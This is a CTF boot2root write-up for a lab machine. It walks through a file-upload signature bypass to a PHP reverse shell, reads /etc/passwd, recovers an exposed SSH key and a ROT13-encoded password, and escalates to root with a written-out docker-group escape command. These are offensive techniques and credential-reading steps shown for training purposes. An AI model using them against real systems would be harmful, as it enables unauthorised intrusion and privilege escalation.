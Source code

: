 ## BattleX CTF: another_machine 
#### Category: Boot2Root
#### Score: 30
#### Number of Solves: 4 

### TL; DR

Exploit upload functionality of a webserver to gain initial access, escalating privilege from low privileged user to a more privileged user through exposed ssh credentials and to root using docker group.

### Recon

```
Starting Nmap 7.95 ( https://nmap.org ) at 2024-06-29 17:10 WAT
Nmap scan report for 10.10.90.12
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f8:89:12:c0:ab:91:e2:29:1f:55:a6:b1:aa:48:e5:37 (RSA)
|   256 46:05:a8:f4:66:29:41:79:01:a0:43:b8:a9:ef:47:5d (ECDSA)
|_  256 04:db:fa:b1:16:82:c5:99:86:41:ba:8a:ea:72:34:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Death Note - Add Names
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.66 seconds
```

We have two services running. One SSH on port 22 and Apache web server on port 80. The versions of the services doesn't look like one with a public available exploit to hasten my progress.

### Exploring

![Port 80](https://i.imgur.com/IiUJoIt.png)

_Apache on port 80_

On uploading a JPG file, nothing happens, it seems it uploaded. But to what location?

I used `gobuster` to do a light directory bruteforce, using a common.txt wordlist from SecLists.

![Imgur](https://i.imgur.com/bTuZUNJ.png)

_Gobuster result_

/notes was discovered and on checking, it contained the uploaded file in it. Nice, I could exploit this upload to gain initial access to the base system. I tried uploading a php shell and was greeted by this. 

![Imgur](https://i.imgur.com/drkMEXr.png)

This _thing_ is validating the file signature and less likely the file extension (.php). To bypass this upload restriction. I copied a jpg file magic and pasted in the request, using BurpSuite Repeater.

![Imgur](https://i.imgur.com/RZfkdLr.png)

Boom, my shell uploaded.

![Imgur](https://i.imgur.com/cSUR2FR.png)

### Gaining access 

I opened my equivalent netcat listener and I have shell.

![Imgur](https://i.imgur.com/z6dd8hT.png)

```
www-data@deathnote:/opt/containerd$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
[snip]
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
[snip]
ryuk:x:1000:1000:ryuk:/home/ryuk:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
light:x:1001:1001:,,,:/home/light:/bin/bash
```

### Privilege escalation

We have two users apart from root. Next, I uploaded linpeas to quicken my system enumeration proceedure. Linpeas detected a ssh private key in /opt/containerd/ directory which should belong to either of the users or probably root. 

```
www-data@deathnote:/opt/containerd$ ls

bin
id_rsa
lib
www-data@deathnote:/opt/containerd$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAzndKq1pSh74SM3nfOe2Wk+lcoLF6sIQMwL4wo7wTuRALVS8O
wDiejhpCJuZ72EAujPmsxJrDN5eD9h3Gvaf56gPcSBEomVoU2oWBVaISTuKjOvXK
[snip]
9cN3D9ruIqD060p8gTfKZAuvMKoTP3ChHAxdXVDcjl6ChTPCKRigQf0=
-----END RSA PRIVATE KEY-----
```
It turned out to be the ssh key for ryuk, now, I will use a more standard and stable shell access.

![Imgur](https://i.imgur.com/r0AGEGy.png)

_user.txt and I can't cat it??_

```
ryuk@deathnote:~$ ls -lah
total 44K
drwx---r-x 6 ryuk  ryuk 4.0K Jun 16 01:23 .
drwxr-xr-x 4 root  root 4.0K Jun 15 01:17 ..
lrwxrwxrwx 1 ryuk  ryuk    9 Jun 16 01:08 .bash_history -> /dev/null
-rw-r--r-- 1 ryuk  ryuk  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 ryuk  ryuk 3.7K Apr  4  2018 .bashrc
drwx------ 2 ryuk  ryuk 4.0K Jun 14 20:52 .cache
drwx------ 3 ryuk  ryuk 4.0K Jun 14 20:52 .gnupg
drwxrwxr-x 3 ryuk  ryuk 4.0K Jun 15 00:49 .local
-rw-r--r-- 1 ryuk  ryuk  807 Apr  4  2018 .profile
-rwx------ 1 ryuk  ryuk   24 Jun 15 01:16 rotedcreds
drwx------ 2 ryuk  ryuk 4.0K Jun 16 01:28 .ssh
-rw-r--r-- 1 ryuk  ryuk    0 Jun 14 20:55 .sudo_as_admin_successful
-rwxr----- 1 light root   33 Jun 15 01:21 user.txt
```

user.txt is owed by user light and root and there's a suspicious `rotedcreds` file which contained a ciphered text. I will proceed to use cyberchef or any tool to anaylse the text and get something useful from it.

![Imgur](https://i.imgur.com/VmKtjp7.png)

_ROT13 with amount 13_

Credential for light, gotten.

light:0lightyagami23433

```
ryuk@deathnote:~$ su light
Password:
light@deathnote:/home/ryuk$ cat user.txt
5eb63bbbe01eeed093cb22bb8f5acdc3
light@deathnote:/home/ryuk$
```

User flag gotten!!

User flag: `5eb63bbbe01eeed093cb22bb8f5acdc3` 

### Privilege escalation to root

![Imgur](https://i.imgur.com/NIr8bZQ.png)

_Manual enumeration_

Light may not use sudo but Light is in the docker group. Meaning, Light can run docker as root. I can easily escalate to root with this discovery. By running this command, `docker run -v /:/mnt --rm -it alpine chroot /mnt bash` (source: gtfobins), I will be spawned into a root shell.

![Imgur](https://i.imgur.com/e0sZ5EU.png)

```
root@729fd2f76468:~# ls -lah
total 40K
drwx------  6 root root 4.0K Jun 16 02:12 .
drwxr-xr-x 24 root root 4.0K Jun 14 20:01 ..
lrwxrwxrwx  1 root root    9 Jun 15 04:14 .bash_history -> /dev/null
[snip]
drwx------  2 root root 4.0K Jun 14 20:51 .ssh
-r--r--r--  1 root root  353 Jun 15 01:37 deathnote
-rw-------  1 root root  123 Jun 16 02:12 root.txt
root@729fd2f76468:~# cat root.txt
here is your flag but please remove the deathnote before leaving h4ckerm4n

1f3870be274f6c49b3e31a0c6728957f
root@729fd2f76468:~#
```
Root flag gotten.

Root flag:`1f3870be274f6c49b3e31a0c6728957f`

### Extras

There's a note saying I should remove the deathnote before leaving, its clearly having read and no write permissions. 

```
root@729fd2f76468:~# chmod 777 deathnote
chmod: changing permissions of 'deathnote': Operation not permitted
root@729fd2f76468:~# chattr -i deathnote
Hacksparo was too smart -i deathnote
```
_Tried to use chattr_

I will figure out a way later. Onto the next.

### References

1. [gtfobins](https://gtfobins.github.io/gtfobins/docker/)